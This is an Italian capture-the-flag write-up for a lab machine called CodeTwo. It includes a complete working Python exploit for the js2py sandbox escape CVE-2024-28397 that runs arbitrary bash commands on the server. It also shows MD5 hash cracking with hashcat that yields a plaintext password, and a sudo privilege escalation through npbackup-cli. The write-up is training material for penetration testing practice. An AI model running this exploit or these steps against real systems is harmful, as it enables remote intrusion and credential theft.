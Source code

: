 # CodeTwo

![Card](./img/CodeTwo.png)

## Reconnaissance

Si inizia con una scansione **NMAP**.

![nmap](./img/1-nmap.png)

Oltre al servizio **SSH** e' presente anche un server **Gunicorn v20.0.4** raggiungibile tramite http alla porta **8000**.

> Gunicorn e' un Python WSGI HTTP Server per UNIX.

Si visita con il browser l'URL **http://10.x.x.x:8000**.

![website](./img/2-site.png)

L'applicazione web dovrebbe offrire la possibilita' di salvare e eseguire codice **JavaScript**.

E' possibile registrarsi ed accedere al proprio profilo seguendo rispettivamente questi URLs:

- **http://10.x.x.x:8000/register**

- **http://10.x.x.x:8000/login**

Mentre, da **http://10.x.x.x:8000/download** e' possibile scaricare il file **app.zip**.

Si scarica ed ispeziona il contenuto del file.

```bash

$ curl -Go app.zip http://10.x.x.x:8000/download 

$ unzip app.zip -x app/

```

![tree](./img/3-tree.png)

Il file **requirements.txt** contiene le dipendenze che utilizza l'applicazione.

```text

flask==3.0.3
flask-sqlalchemy==3.1.1
js2py==0.74

``` 

> js2py e' un **JavaScript to Python Translator & JavaScript interpreter**.
> 
> [https://github.com/PiotrDabkowski/Js2Py](https://github.com/PiotrDabkowski/Js2Py)
 
Inoltre, e' presente il file **instance/users.db** 

![sqlite empty db](./img/4-db.png)

Tuttavia, il database e' vuoto.

Mentre, il file **app.py** contiene il codice sorgente dell'appliazione web.

Lo studio del codice di *app.py* viene accompagnato dal diretto utilizzo della web-app, procedendo con la registrazione come **user:user**.

![dashboard](./img/5-dashboard.png)

E' possibile scrivere, eseguire e memorizzare codice scritto con il linguaggio **JavaScript**.

![dashboard-2](./img/6-dashboard2.png)

Dal codice sorgente in *app.py* si individua **/run_code** che dietro le quinte si basa sul metodo **eval_js** della libreria js2py per interpretare il codice **JS** fornito dall'utente.

![app.py](./img/7-app.png)

Si individua la **CVE-2024-28397** che coinsiste in una **sandbox escape** per **js2py**, con il bypass della restrizione **pyimport** (`js2py.disable_pyimport()`).

Requisiti:

- **js2py<=0.74**.

- **Python 3**, poiche' il framework *flask v3.0.3* e' compatibile per questa versione di Python.

> E' disponibile una **PoC** [https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/tree/main](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape) presa come riferimento.

Lo script **exploit** permette di inoltrare una richiesta POST a */run_code* e di ottenere un riferimento a un oggetto Python nell'ambiente js2py, in modo tale da uscire dall'ambiente JS ed eseguire comandi arbitrari (**Remote Code Execution (RCE)**).

```python3

#!/usr/bin/python3
from argparse import ArgumentParser

if __name__ == "__main__":
    parser = ArgumentParser(prog="js2py (RCE) - exploit")
    parser.add_argument("-t", "--target", help="Target ipaddress:port", type=str, required=True)
    parser.add_argument("-c", "--command", help="Remote command to execute", type=str, required=True)
    parser.add_argument("-s", "--session", help="Session", type=str)

args = parser.parse_args()

target = args.target
cmd = args.command
session = args.session

import requests

payload = f'''
function exploit(cmd) {{
    let a = Object.getOwnPropertyNames({{}}).__class__.__base__.__getattribute__
    const obj = a(a(a,"__class__"), "__base__").__subclasses__()
    for (let i = 0; i < obj.length; i++) {{
        if (obj[i].__module__ == "subprocess" && obj[i].__name__ == "Popen") {{
            let Popen = obj[i]
            let p = Popen(cmd)
            let res = p.communicate()
            return p.pid
        }}
    }}
    return -1
}}

const cmd = ["/bin/bash","-c","{cmd}"]
exploit(cmd)
'''

json = { "code": payload }
cookies = {"session": session }
url = f"http://{target}/run_code"

response = requests.post(url, cookies=cookies, json=json)

print("\n========== js2py RCE =========\n")
print("Response: " + response.text)
print("\n==============================\n")

```

Si lancia lo script per far eseguire sulla macchina vittima il comando **curl**.

![simple cmds](./img/8-simple-cmd.png)

Funziona!!!

Allora si prova ad ottenere una **reverse shell**.

![reverse shell](./img/9-revshell.png)

Si e' acceduti come utente **app**. 

Sono presenti le stesse risorse di **app.zip**, quindi, si ispeziona il contenuto di **instance/users.db** e si ottengono i seguenti records:

```text

> SELECT * FROM user;

1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e

```

Da *app.py* si vede che alle password viene applicato **MD5**.

![register app](./img/10-register.png)

Si utilizza **HashCat** per craccare le password.

```bash

$ cat users.hash                                                                                                                                                                                                                                         
649c9d65a206a75f5abe509fe128bce5                                                                                                                                                                                                                           
a97588c0e2fa3a024876339e27aeb42e 

$ hashcat -a 0 -m 0 users.hash /usr/share/wordlists/rockyou.txt.gz
649c9d65a206a75f5abe509fe128bce5:sweetangelbabylove
 
```

Si ottengono le credenziali `marco:sweetangelbabylove`.

Si tenta l'accesso tramite **SSH**.

```bash

$ ssh marco@10.x.x.x

```

Funziona!

![marco](./img/11-user.png)

Si ottiene la flag `user.txt`.

- **19aa95eb23e9fc8c26d6da4703b6a72f**

![priv](./img/12-sudo.png)

L'utente *marco* ha i privilegi di eseguire con **sudo** il programma **/usr/local/bin/npbackup-cli**.

> npbackup e' una una soluzione di backup dei file caratterizzata da interfaccia CLI e GUI. [https://github.com/netinvent/npbackup](https://github.com/netinvent/npbackup)

L'idea e' quella di sfruttare questo programma con alti privilegi per accedere a contenuto altrettanto privilegiato, come **/root**.

Leggendo l'**help** del comando **npbackup-cli** si comprende come utilizzare il software.

```bash

$ sudo /usr/local/bin/npbackup-cli --help
  -c CONFIG_FILE, --config-file CONFIG_FILE                                                                                                                                                                                                                
                        Path to alternative configuration file (defaults to current dir/npbackup.conf) 
  -b, --backup          Run a backup                                                                                                                                                                                                                       
  -s, --snapshots       Show current snapshots                                                                                                                                                                                                             
  --ls [LS]             Show content given snapshot. When no snapshot id is given, latest is used     
  --list LIST           Show [blobs|packs|index|snapshots|keys|locks] objects
  --dump DUMP           Dump a specific file to stdout (full path given by --ls), use with --dump [file], add --snapshot-id to specify a snapshot other than latest

```

Si utilizza il file di configurazione gia' presente **npbackup.conf** e si tenta la **Privilege Escalation** modificando il **path** a **/root**.

![config](./img/14-config.png)

![priv esc](./img/15-privesc.png)

Catturata!!!

- **ed5839ff76e88af097713303adf99298**

---
